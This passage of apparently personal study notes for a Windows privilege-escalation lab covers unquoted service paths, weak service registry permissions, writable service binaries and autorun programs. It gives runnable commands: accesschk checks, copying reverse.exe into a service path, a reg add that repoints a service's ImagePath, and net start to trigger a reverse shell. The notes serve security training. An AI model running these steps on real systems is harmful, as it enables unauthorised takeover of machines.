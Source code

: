 ![image](https://github.com/user-attachments/assets/5115d234-5fe0-4daf-af3a-756660097559)

- Use `accesschk /accepteula -uwdq "[service name]"` to check for the user privileges

  ![image](https://github.com/user-attachments/assets/866a466f-3d86-4399-bb13-8087489395e6)

- Copy to the directory and rename with `Common.exe`

      copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"

- use `net start [service}` to start shell.


### Weak Registry Permissions

- Write registry access can allow an attacker overwrite the image path registry key of a service . In this case service `regsvc` is vulnerable, group `NT AUTHORITY/INTERACTIVE` can overwrite registry Imagepath.

Command-:```accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc```

![image](https://github.com/user-attachments/assets/6a9b85dd-c13d-4760-85e9-436cbbad8ba8)

- Overwrite the image path

Command-:```reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f```

- Then, use `net start regsvc` to start revshell

![image](https://github.com/user-attachments/assets/efcddbb2-7a35-4bbf-a8f6-7d01cb1b9bfd)


### Insecure Service Executables

- An attacker can swap a services's binary executable with system privileges if it is writable by everyone.

![image](https://github.com/user-attachments/assets/fc1972d0-a859-41b7-9c17-e60c52d5061e)

- Copy and replace the binary with

`copy [path] [path] /Y`

- Start the service with `net start filepermsvc


### Registry Autoruns

- Query with `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` to query the registry for Autorun executables

![image](https://github.com/user-attachments/assets/e1d92284-a179-4105-9407-9a4821568a8d)

- Query with accesschk to see if it is writable by everyone

  Command-: ```C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"```
